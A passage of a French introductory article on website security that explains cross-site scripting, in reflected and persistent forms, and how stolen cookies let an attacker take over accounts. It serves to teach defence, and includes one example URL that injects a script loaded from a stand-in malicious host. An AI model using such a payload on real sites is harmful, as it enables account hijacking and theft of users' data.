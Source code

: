 Le reste de cet article détaille les menaces les plus courantes qui pèsent sur les sites web et quelques étapes simples pour protèger votre site.

> **Note :** ceci est un article d'introduction, conçu pour vous aider à réflechir à la sécurité de votre site web. Il n'est en rien exhaustif.

## Menaces visant la sécurité des sites web

Cette section n'énumère que quelques-unes des menaces les plus courantes visant les sites web et la façon dont elles sont tenues à distance. À mesure que vous lisez, notez comment les menaces apparaissent lorsque l'application web fait confiance ou n'est pas assez méfiante vis-à-vis des données provenant du navigateur !

### Cross-Site Scripting (XSS)

XSS est un terme utilisé pour décrire une classe d'attaque qui permet à l'attaquant d'injecter des scripts, exécutés côté-client, _au travers_ du site web pour viser le navigateur web des autres utilisateurs. Comme le code injecté provient du site web le navigateur web le considère comme sûr, il peut de ce fait faire des choses comme transmettre le cookie d'authentification de l'utilisateur à l'attaquant. Une fois que l'attaquant obtient ce cookie il peut se connecter sur le site comme si il était l'utilisateur attaqué et peut faire tout ce que l'utilisateur pourrait faire. En fonction du site sur lequel l'attaque se produit, cela peut inclure l'accès aux détails de carte bancaire, les informations des contacts, la modification du mot de passe, etc.

> **Note :** les vulnérabilités XSS ont historiquement été les plus courantes.

Il y a deux manières principales pour demander au site de retourner un script injecté vers un navigateur web — elles sont désignées en tant que vulnérabilités XSS _réfléchie_ et _persistante_.

- Une vulnérabilité XSS  réfléchie se produit quand le contenu de l'utilisateur transmis au serveur est immédiatement retourné, sans avoir été modifié, pour être affiché dans le navigateur — tout les scripts présents dans le contenu d'origine seront exécutés quand la nouvelle page sera chargée!
  On prendra par exemple une fonction de recherche dans un site où les termes recherchés sont encodés en tant que paramètres dans l'URL, et que ces termes sont affichés en permanence avec les résultats. Un attaquant peut construire un lien de recherche contenant un script malicieux en tant que paramètre (ex: `http://mysite.com?q=beer<script%20src="http://sitedangereux.com/malicieux.js"></script>`) et le transmettre par e-mail à un autre utilisateur. Si l'utilisateur ciblé clique sur ce "lien intéressant", le script sera exécuté quand les résultats de la recherche seront affichés. Comme vu auparavant, cela donne à l'attaquant toute les informations dont il a besoin pour se connecter sur le site avec le compte de la victime — potentiellement faire des achats en tant que cet utilisateur ou accèder à la liste de contacts..
- Une vulnérabilité XSS _persistante_ sera celle où le script malicieux est stocké sur le site web puis affiché, sans modification, un peu plus tard par les autres utilisateurs et exécuté à leur insu.
  Par exemple, un écran de discussion qui accepte les commentaires contenant du code HTML pur peuvent stocker le script malicieux de l'attaquant. Quand les commentaires sont affichés le script est exécuté et peut ensuite transmettre à l'attaquant les informations nécessaires pour accèder au compte de l'utilisateur. Cette méthode d'attaque est extrêmement courante et efficace, parce que l'attaquant n'a pas besoin d'avoir une relation directe avec les victimes.

  Alors que l'envoi de données avec `POST` ou `GET` est la source la plus commune de vulnérabilité XSS, toute donnée en provenance du navigateur web est potentiellement vulnérable (cela inclut l'affichage des données des cookies par le navigateur, ou les fichiers de l'utilisateur qui sont chargés et affichés).
